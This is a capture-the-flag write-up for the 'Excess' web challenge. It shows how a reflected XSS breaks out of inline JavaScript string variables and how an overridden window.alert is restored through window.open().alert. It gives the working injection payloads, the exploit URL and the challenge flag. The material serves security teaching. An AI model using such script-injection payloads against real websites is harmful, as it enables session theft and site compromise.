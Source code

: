 # Excess

Category: `web`

Description: `This is some kind of reverse captcha to tell if the visitor is indeed a robot. Can you complete it?`

Service: `http://xss1.alieni.se:2999/`

Author: `avlidienbrunn`

Points: `51`

### What It Does

This is on XSS. We have to make an `alert(1)` pop-up and submit the URL to get the flag.

![Main website](img/excess_main.png)

### How to Solve

The website provides a link to `http://xss1.alieni.se:2999/?xss=hello` but the link looks the same as the website. Here is the page source:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
      <meta charset="UTF-8">
      <meta name="viewport" user-scalable="no" content="width=device-width, initial-scale=1">
      <link rel="stylesheet" href="/static/style.css" />
      <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
      <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>
      <link rel="stylesheet" href="https://netdna.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css" />
      <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/mdbootstrap/4.3.0/css/mdb.min.css" />
  </head>
  <body>
      <script src="/static/no_alert_for_you.js"></script><section class="login-info">
<div class="container">
  <script>var x ='hello'; var y = `hello`; var z = "hello";</script>
  <div class="row main">
       <div class="form-header header">
          <h1 class="text-center ">Excess Ess</h1>
        </div>
    <div class="main-content">
          <div class="row" id="container">
            <hr>
            <h4 class="text-center black-text">Make alert(1) pop <a href="/?xss=hello">here</a> and submit the working URL in the form below.</h4>
          </div>
          <form method="post" action="/submit">
          <div class="input-group ">
            <span class="input-group-addon"><span class="glyphicon glyphicon-paperclip" aria-hidden="true"></span></span>
            <input type="text" class="form-control text-center" name="url" placeholder="URL that pops alert(1) without user interaction">
          </div>
          
          <div class="form-group ">
          <center>
              <input type="submit" value="submit" name="login" class="btn btn-green header btn-lg btn-block login-button"/>
              </center>
          </div>

          </form>
          
          <div class="form-group" id="container">
          </div>
      
      </div>
    </div></body></html>
```

The GET parameter `xss` controls the variable declared in a script tag in the page.

```html
<script>var x ='hello'; var y = `hello`; var z = "hello";</script>
```

Browsing to `http://xss1.alieni.se:2999/?xss='; alert(1); '` shows a prompt instead.

![Initial payload](img/excess_initial_payload.png)

The page source indicates that the script was successfully injected.

```html
<script>var x =''; alert(1); ''; var y = `'; alert(1); '`; var z = "'; alert(1); '";</script>
```

After looking closely at the page source, there is a javascript file defined before the payload.

```html
<script src="/static/no_alert_for_you.js"></script>
```

The file `no_alert_for_you.js` overrides the `window.alert` function to a prompt.

```javascript
/*

        If there is no alert,
            how can there be XSS?
                      /
                     /
            )            (
           /(   (\___/)  )\
          ( #)  \ ('')| ( #
           ||___c\  > '__||
           ||**** ),_/ **'|
     .__   |'* ___| |___*'|
      \_\  |' (    ~   ,)'|
       ((  |' /(.  '  .)\ |
        \\_|_/ <_ _____> \______________
         /   '-, \   / ,-'      ______  \
b'ger   /      (//   \\)     __/     /   \
                            './_____/

*/
window.alert = (x=>prompt("He confirm. He alert. But most of all he prompt."));
```

We can restore `window.alert` to the default alert function by using the alert function of another window. In this case, we are using the alert function of a new window.

_Note: You may need to enable pop-up._ 

```javascript
window.alert = window.open().alert;
```

Using `alert(1)` will create a pop-up in the new window. Thus, we will use `window.alert(1)` to create a pop-up in the main window instead. Here is the final payload:

```
'; window.alert = window.open().alert; window.alert(1); '
```

Browse to the following link to test our payload:

```
http://xss1.alieni.se:2999/?xss='; window.alert = window.open().alert; window.alert(1); '
```

![Final payload](img/excess_final_payload.png)

Enter the link to get the flag.

![Flag](img/excess_flag.png)

**Flag: `sctf{cr0ss_s1te_n0scr1ptinG}`**